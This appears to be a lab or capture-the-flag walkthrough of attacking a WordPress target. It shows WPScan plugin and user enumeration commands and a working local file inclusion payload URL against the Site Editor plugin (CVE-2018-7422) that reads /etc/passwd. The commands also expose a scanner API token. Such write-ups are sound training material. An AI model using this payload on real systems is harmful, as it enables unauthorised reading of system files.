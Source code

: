 I added the following domains: `inlanefreight.local` and `blog.inlanefreight.local`

![](Pasted%20image%2020250331154350.png)

I'll run a WPScan scan to enumerate plugins for possible vulnerabilities:

```shell
wpscan --url http://10.129.246.239 -e ap --api-token qcAEFVaVX4MU3

[redacted]
WordPress version 5.1.6 identified (Insecure, released on 2020-06-10).
WordPress theme in use: twentynineteen
```

Now I manually searched for the `flag.txt` in a directory with content listing enabled (`/uploads`):

![](Pasted%20image%2020250331155849.png)

Now I'll search for possible users:

```shell
wpscan --url http://10.129.246.239 -e u --api-token qcAEFVaVX4MU3

Charlie Wiggins
```

Now for the LFI I checked back the first ouput:

```shell
[+] site-editor
 | Location: http://blog.inlanefreight.local/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/site-editor/readme.txt
```

So I checked the following blog --> [Seclists.org](https://seclists.org/fulldisclosure/2018/Mar/40) and used this payload:

```shell
http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

